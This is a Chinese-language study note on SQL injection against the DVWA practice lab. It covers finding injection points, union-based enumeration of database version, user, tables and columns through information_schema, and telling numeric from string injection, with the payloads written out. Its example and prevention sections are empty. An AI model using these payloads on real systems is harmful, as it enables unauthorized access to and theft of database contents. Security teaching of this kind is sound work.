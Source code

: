 ### 原理
- SQL 注入攻击是通过将恶意的 SQL 语句插入到应用的输入参数中，再在后台数据库服务器上解析执行进行的攻击
- 业务三层结构：界面层、业务逻辑层、数据访问层
- 由于常常会结合用户的输入数据动态构造 SQL 语句，因此可能发生恶意 SQL 代码的攻击

- 主要威胁：
	- 猜测后台数据，盗取敏感信息
	- 绕过登录认证
	- 注入可以借助数据库的存储过程进行提权等操作
## 攻击步骤
### 寻找注入点
- 找到存在 SQL 注入的参数，SQL 注入大多发生在 GET 或 POST 请求的参数中，当然也有可能发生在其他地方，例如 UserAgent、Cookie 等
- 要是带有参数的动态网页且此网页访问了数据库，那么就有可能存在 SQL 注入。如果程序员没有足够的安全意识，没有进行必要的字符过滤，存在 SQL 注入的可能性就非常大。
	- 如 `http://xxx.xxx.xxx/abcd.php?id=XX`
- 单引号测试法，如果不匹配的单引号导致报错则通常存在 SQL 注入漏洞`http://xxx/abc.php?id=1'`
### 判断注入类型/数据库类型
- SQL 注入按照不同的分类标准，可以分成不同的种类。
#### 联合查询注入
- 主要要保证前后查询列数相同
- 由此可以在系统本身的查询上加上后半部分 union 获取其他数据
- 可以通过 order 确定查询的列数 `SELECT first_name, last_name FROM users WHERE user_id = '1' order by 1`
	- 出现报错时的数目减一就是列数
- `1' union select version(),@@version_compile_os#` 获取**数据库版本和操作系统信息**
### 猜解数据库名
- 猜解后台数据库的库名
-  `1' union select database(),user()#` 获取数据库名称和查询用户名
### 猜解数据表名
- 成功猜解到数据库名称后，进一步猜解某一个特定数据库中数据表的名称
- information_schema 是 mySQL 自带的一张表，这张数据表保存了 MySQL 服务器所有**数据库的信息**, 如数据库名，数据库的表，表栏的数据类型与访问权限等。
- `1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#` 获取表名和访问权限
### 猜解数据字段名
- 最后是某个特定数据库中特定数据表中的字段，因为获取到字段才能查询数据
- 查看制定表的全部字段名`1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #`
### 技巧
- 末尾添加 `#` 注释掉多余的部分
	- 如原始语句 `SELECT first_name, last_name FROM users WHERE user_id = 'id';` 可以输入 `1' order by 1#`
### SQL 注入类型
#### 数字型
- 判断方式：
	- URL 地址中输入 `http://xxx/abc.php?id= x and 1=1 ` 页面依旧运行正常，继续进行下一步。
	- URL 地址中继续输入 `http://xxx/abc.php?id= x and 1=2` 页面运行错误，则说明此 SQL 注入为数字型注入。
	- 因为如果是数字型会出现 1=2 的逻辑错误，但是字符型不存在问题 `select * from <表名> where id = 'x and 1=1'select * from <表名> where id = 'x and 1=2'`
#### 字符型
- 判断方法：
	- URL 地址中输入 `http://xxx/abc.php?id= x' and '1'='1` 页面运行正常，继续进行下一步。
	- URL 地址中继续输入 `http://xxx/abc.php?id= x' and '1'='2` 页面运行错误，则说明此 SQL 注入为字符型注入。
	- 
### 实例

## 防范